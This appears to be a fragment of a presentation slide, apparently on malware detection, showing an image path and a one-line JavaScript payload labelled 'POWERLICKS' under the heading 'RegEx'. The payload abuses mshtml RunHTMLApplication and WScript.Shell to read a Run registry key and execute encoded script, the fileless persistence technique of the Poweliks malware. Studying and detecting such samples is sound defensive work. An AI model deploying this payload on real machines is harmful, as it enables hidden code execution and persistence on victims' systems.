

RegEx :

javascript:"\..\mshtml,RunHTMLApplication ";document.write("\74script language=jscript.encode>"+(new%20ActiveXObject("WScript.Shell")).RegRead("HKCU\\software\\microsoft\\windows\\currentversion\\run\\")
+"\74/script>")
# POWERLICKS